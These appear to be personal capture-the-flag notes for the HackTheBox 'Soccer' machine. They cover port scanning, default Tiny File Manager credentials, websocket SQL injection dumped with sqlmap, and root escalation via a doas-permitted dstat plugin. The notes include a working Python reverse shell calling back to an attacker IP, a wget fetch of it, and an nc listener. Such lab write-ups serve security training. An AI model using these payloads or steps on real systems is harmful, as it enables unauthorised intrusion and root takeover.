#HackTheBox #linux 
# 1-Enum
## nmap
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Mon, 15 May 2023 17:43:15 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Mon, 15 May 2023 17:43:15 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|     </html>
|   RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Mon, 15 May 2023 17:43:16 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>

# gobuster
big.txt
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]

# Find 
## in code source : [tinyfilemanager] version="2.4.3"

## Creds admin/admin@123 

http://soccer.htb/tiny/tinyfilemanager.php?p=

## gobuster
common.txt
/uploads              (Status: 301) [Size: 178]  [--> http://soccer.htb/tiny/uploads/]

## in linpeas
╔══════════╣ Hostname, hosts and DNS
soccer                                                                                                                                                                                                           
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb

## in soc-player.soccer.htb/check code source
	WebSocket("ws://soc-player.soccer.htb:9091");

# Exploit #
#ExploitWebsocket
┌──(root㉿kali)-[/home/kali/Desktop/tools]
└─# python3 ws-websocket_sql.py 
┌──(root㉿kali)-[/home/kali/Desktop/HTB/soccer]
└─# sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys`
```

┌──(root㉿kali)-[/home/kali/Desktop/HTB/soccer]
└─# sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

┌──(root㉿kali)-[/home/kali/Desktop/HTB/soccer]
└─# sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts -dump
```
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+`
```

# SSH connexion

┌──(root㉿kali)-[/home/kali/Desktop/HTB/soccer]
└─# ssh player@player.htb 

## Find
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                      
	  Group player:                                                                                                                                   
	/usr/local/share/dstat 
	
[player@soccer:/tmp$] find / -name dstat 2>/dev/null
	/usr/share/doc/dstat
	/usr/share/dstat
	/usr/local/share/dstat
	/usr/bin/dstat

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                       
	-rwsr-xr-x 1 root root 42K Nov 17 09:09 /usr/local/bin/doas 

[player@soccer:/tmp$] find / -name doas* -exec ls -ld {} \; 2>/dev/null
	-rw-r--r-- 1 root root 7446 Nov 17 09:09 /usr/local/share/man/man5/doas.conf.5
	-rw-r--r-- 1 root root 3216 Nov 17 09:09 /usr/local/share/man/man1/doas.1
	-rw-r--r-- 1 root root 1880 Nov 17 09:09 /usr/local/share/man/man8/doasedit.8
	-rwxr-xr-x 1 root root 2002 Nov 17 09:09 /usr/local/bin/doasedit
	-rwsr-xr-x 1 root root 42224 Nov 17 09:09 [/usr/local/bin/doas]
	-rw-r--r-- 1 root root 48 Nov 17 09:10 [/usr/local/etc/doas.conf]

[player@soccer:/tmp$] cat /usr/local/etc/doas.conf
	permit nopass player as root cmd /usr/bin/dstat

```
Dstat est hautement extensible et les utilisateurs connaissant Python peuvent créer leurs plugins.
```

# PrivEsc

┌──(root㉿kali)-[/home/kali/Desktop/HTB/soccer]
└─# nano dstat_cyberw1ng.py 
```
  GNU nano 7.2                              dstat_cyberw1ng.py                                        
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('10.10.16.30',1234));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(['/bin/sh','-i']);
```

[player@soccer:/usr/local/share/dstat$] wget http://10.10.16.30/dstat_cyberw1ng.py

[player@soccer:/usr/local/share/dstat$] doas -u root /usr/bin/dstat --cyberw1ng

┌──(root㉿kali)-[/home/kali/Desktop/tools]
└─# nc -lnvp 1234     
```
listening on [any] 1234 ...
^[[Aconnect to [10.10.16.30] from (UNKNOWN) [10.10.11.194] 54004
# cat /root/cat: not found
# id/sh: 1: 
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
43e1ccc3c18fa47e6295243cf8e5b27d
```